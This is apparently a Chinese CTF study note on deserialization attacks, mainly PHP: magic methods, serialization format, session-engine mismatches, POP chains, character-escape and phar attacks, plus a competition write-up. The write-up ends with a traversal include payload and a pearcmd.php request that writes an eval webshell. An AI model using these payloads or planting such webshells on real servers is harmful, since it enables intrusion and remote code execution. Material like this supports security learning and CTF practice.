


# 📦 反序列化

## **(Vqs147) PHP** 

参考： [https://www.qwesec.com/2024/03/php-unserialize.html](https://www.qwesec.com/2024/03/php-unserialize.html#%E7%BB%95%E8%BF%87-wakeup)

### **类和对象基础概念**

类的成员属性和方法

类的成员的类型：

| 权限 | 说明 | 外部访问 | 类内部访问 | 被继承 |
|----|----|----|----|----|
| `public` | 公有的 | true | true | true |
| `protected` | 受保护的 | false | true | true |
| `private` | 私有的 | false | true | false |

### 魔术方法

即类中特殊的成员方法，在某些条件下无需显式调用即可执行。能够帮助建立反序列化的利用链条。

| 魔术方法 | 触发条件 | 参数 / 返回值 |
|----|----|----|
| __construct() | 构造函数，当当前类被实例化的时候自动触发 | 任意长度的参数 |
| **__destruct()** | 析构函数，在对象的所有引用被删除或者当对象被销毁时触发 | 无参数 |
| **__wakeup()** | 在使用 `unserialize()` 反序列化之前触发 | 无参数 |
| __sleep() | 在使用`serialize()`序列化之前触发 | 无参数；返回值是需要被序列化存储的成员属性，是个数组。 |
| **__toString()** | 当对象被作为字符串输出或运算时触发 | 无参数；返回一个字符串 |
| **__invoke()** | 当对象被当成函数调用时触发 | 无参数 |
| **__get()** | 当对象从外部访问一个不存在(或不可访问)的属性时触发 | 访问的属性名 |
| **__set()** | 当对象从外部赋值一个不存在(或不可访问)的属性时触发 | 属性名以及赋的值 |
| __clone() | 在克隆一个对象的时候触发 | 无参数 |
| **__call()** | 在调用对象的不存在(或不可访问)的方法时触发 | args1(调用的方法名), args2(传入的参数值，是个数组) |
| __callStatic() | 当调用类的不存在(或不可访问)的静态方法时触发 | args1(调用的方法名),args2(传入的参数值，是个数组) |
| __isset() | 对不可访问或不存在属性使用 `isset()` 或者 `empty()` 的时候触发 | 属性名 |
| __unset() | 对不可访问或不存在的属性使用 `unset()` 时触发 | 属性名 |

### serialize函数的用法和输出格式

serialize函数接受一个参数（不能是资源类型如文件句柄、数据库连接、图像资源；不能是一些特殊内置对象如`Closure`），返回序列化后的字符串。对于对象，只序列化其成员属性，忽略其成员方法。

序列化格式：

| 数据类型 | 值 | 序列化的值 |
|----|----|----|
| null 类型 | null | `N;` |
| 字符串类型 | "hello" | `s:5:"hello";` |
| 整型 | 666 | `i:666;` |
| 浮点型 | 2.0 | `d:2;` |
| 布尔类型 | true | `b:1;` |
| 布尔值类型 | false | `b:0;` |
| 数组类型 | array(6,7) | `a:2:{i:0;i:6;i:1;i:7;}` |

序列化的对象：

 

不同类型成员属性的序列化格式：

* public：常规 
* protected：序列化后表示属性名的字符串会在其实际类中的名字前面加上 `\x00*\x00`
* private：序列化后表示属性名的字符串会在其实际类中的名字前面加上`\x00类名\x00`。例如一个 `Person` 类的 `private $addr`，序列化之后就为 `\x00Person\x00addr`

### 反序列化漏洞

#### 简单反序列化

将用户输入的字符串作为参数给`unserialize` 函数，导致反序列化漏洞。反序列化的必须是存在的类，可以是脚本中定义的类或者PHP的内置类。

重点关注能够命令执行或文件操作的危险函数。

#### SESSION 反序列化

示例session：

```php
$_SESSION['name'] = 'Alice';
$_SESSION['level'] = 99;
```

PHP 在 session 读取和存储的时候，都会有一个序列化和反序列化的过程。PHP有多种不同的session序列化引擎：

* php：键名+竖线+经过 `serialize()` 序列化处理的值      `name|s:5:"Alice";level|i:99;`
* php_binary：键长（一字节）+键名+经过 `serialize()` 序列化处理的值   `\x04names:5:"Alice";\x05leveli:99;`
* php_serialize： `serialize()` 函数序列化处理数组的方式   `a:2:{s:4:"name";s:5:"Alice";s:5:"level";i:99;}`


* wddx：转换为XML格式，已被弃用

当两个PHP脚本使用了不同的session序列化引擎时，我们就可以操纵session中的值来利用反序列化过程。

重点关注是否在某个PHP脚本中手动设置了session序列化引擎，例如：

```php
ini_set('session.serialize_handler', 'php');
```

#### POP 链

POP链，即"面向属性编程链"(Property-Oriented Programming Chain)，通过各种魔术方法和普通方法之间的调用，实现从入口点到危险函数的攻击链条。

从危险函数开始分析，关注魔术方法的触发条件，构造攻击链条。

#### 字符逃逸（替换）

有时候，虽然没有直接将用户输入的字符串反序列化，但将用户输入的属性给到一个对象，将其序列化后进行了**不等长的**字符串替换，后来又将替换后的字符串进行了反序列化，导致了反序列化后的对象的属性发生了变化，从原来的字符串类型变成了恶意的对象类型，造成反序列化漏洞。

例如：

```php
function read($data) {
    return str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
}

$a = new A($_GET['a'],$_GET['b']);
$b = unserialize(read(serialize($a))));
```

read函数将6个字符替换成了3个字符，导致了长度变化，可以字符逃逸。

分为两类：

字符串替换是从短到长：把恶意的对象属性"挤出来"，只需要控制一个属性的内容即可。结尾多余的数据会被忽略，不影响反序列化。

字符串替换是从长到短：**至少要对两个属性的内容可控**，通过第一个属性中的字符串替换"吞掉"中间的部分，让第二个属性变成恶意的对象。

变长或变短的需要是一次字符串替换的变化的整数倍，如果不是整数倍，可以增加一些无用payload来调整，例如差了3个字符，就在属性开头加上`aa"`（以`"`结尾，这样仍然可以正常反序列化）

#### Phar 反序列化

phar即PHP归档文件(PHP Archive)，类似于Java的jar，是将一个完整的PHP应用程序打包成一个文件，可以在命令行用php命令直接运行，并且能够进行压缩。

使用phar文件时存在反序列化操作，效果等同于调用了`unserialize()`函数。

利用条件：


1. 存在反序列化可以利用的类
2. 能把phar文件（可以是压缩后的）完整无损的上传到服务器的web目录中，后缀名任意
3. 由于`phar://`协议是文件流协议，故而需要存在**文件操作相关的函数**去触发该协议，执行反序列化

本地构造phar文件然后上传：

```php
<?php
$o = ... // 希望反序列化的恶意对象
$phar = new Phar("phar.phar");
$phar->startBuffering(); // 签名自动计算
$phar->setStub("GIF89a" . "<?php __HALT_COMPILER(); ?>"); // 设置stub，增加gif文件头，注意__HALT_COMPILER();必须要有
$phar->setMetadata($o); // 将自定义meta-data写入manifest 
$phar->addFromString("test.txt", "test"); // 添加要压缩的文件
$phar->stopBuffering(); 
?>
```

触发phar的方法：

 

还有一些其他能触发的函数： <https://blog.zsxsoft.com/post/38>

如果有表中的函数，其参数是可控的，即可传入参数`phar://上传的phar文件路径`触发反序列化。如果参数不能以phar://开头，还可以用`[compress.bzip2://phar://](compress.bzip2://phar://)``上传的phar文件路径`

### 例题

#### 2025 阿里云CTF 打卡OK（字符逃逸）

1、通过\~泄露PHP源代码：


:::spoiler
index.php:

```php
<?php
    session_start();
    if($_SESSION['login']!=1){
        echo "<script>alert(\"Please login!\");window.location.href=\"./login.php\";</script>";
        return ;
    }
?>

<?php
include './cache.php';
$check=new checkin();
if(isset($_POST['reason'])){
    if(isset($_GET['debug_buka']))
    {
        $time=date($_GET['debug_buka']);
    }else{
        $time=date("Y-m-d H:i:s");
    }
    $arraya=serialize(array("name"=>$_SESSION['username'],"reason"=>$_POST['reason'],"time"=>$time,"background"=>"ok"));
    $check->writec($_SESSION['username'].'-'.date("Y-m-d"),$arraya);
}
if(isset($_GET['check'])){
    $cachefile = '/var/www/html/cache/' . $_SESSION['username'].'-'.date("Y-m-d"). '.php';
    if (is_file($cachefile)) {
        $data=file_get_contents($cachefile);
        $checkdata = unserialize(str_replace("<?php exit;//", '', $data));
        $check="/var/www/html/".$checkdata['background'].".php";
        include "$check";
    }else{
        include 'error.php';
    }
}
?>
```

cache.php:

```php
<?php
class myCache
{
    public function writecache($name,$data) {
        $file = '/var/www/html/cache/' . $name . '.php';
        $cachedata = "<?php exit;//" . $data;
        file_put_contents($file,$cachedata);
        return '';
    }
}

class checkin{
    function writec($data,$name)
    {
        $wr=new myCache();
        $wr->writecache($data,$name);
    }
}
?>
```

:::

2、分析源代码，可利用的操作是**文件包含**，代码核心逻辑如下：

```php
<?php
// 上传文件
$time = date($_GET['debug_buka']);
$data = serialize(array("name"=>$_SESSION['username'],"reason"=>$_POST['reason'],"time"=>$time,"background"=>"ok"));
$file = '/var/www/html/cache/' . $name . '.php';
$cachedata = "<?php exit;//" . $data;
file_put_contents($file,$cachedata);

// 读取文件、反序列化并包含
$data=file_get_contents($cachefile);
$checkdata = unserialize(str_replace("<?php exit;//", '', $data));
$check="/var/www/html/".$checkdata['background'].".php";
include "$check";
```

目标是控制反序列化出来的$checkdata数组中的background的值，从而实现任意文件包含。正常的background是ok，但反序列化前用str_replace进行了从长到短的字符串替换，存在反序列化漏洞。

从长到短的字符串替换，必须至少有两个可控的属性值，其中reason是可控的，time是用户输入经过date函数之后的，可以通过在每个字符之前添加`\`转义来绕过date函数的处理。

于是用reason把原来的`s:10:"background";s:2:"ok";` 挤出去，再在time中写进新的恶意的background：

```none
reason=<?php exit;//<?php exit;//
debug_buka=123xxxx";s:4:"time";s:2:"12";s:10:"background";s:43:"../../../../../../usr/local/lib/php/abcdefg";} 
（debug_buka的每个字符用反斜杠转义）
```

3、现在能够包含任意文件，限制是文件后缀名是.php

关于PHP裸文件包含（即没办法上传文件，但能包含文件）方法，可以参考：<https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html>

由于限制了包含的文件后缀名是.php，因此没法包含上传文件时的临时session文件（Session ID不允许`.`字符）

因此考虑包含`pearcmd.php`，它是在Docker任意版本镜像中都默认安装的。

```none
POST /index.php?check&+config-create+/<?=@eval($_GET[1]);?>+/var/www/html/hello.php
```

执行命令，写入一个webshell


## Javascript

主要是node-serialize包，可利用的方法不多

### 例题


## Python

### Python 的魔术方法

### Pickle 库用法和输出格式

### Pickle opcode 总结

### Pickle RCE Payload 大全

### 例题


## Java

### 反序列化库及基本原理

### 常用攻击链

#### XXXBean

#### XXXBean

### 中间件反序列化漏洞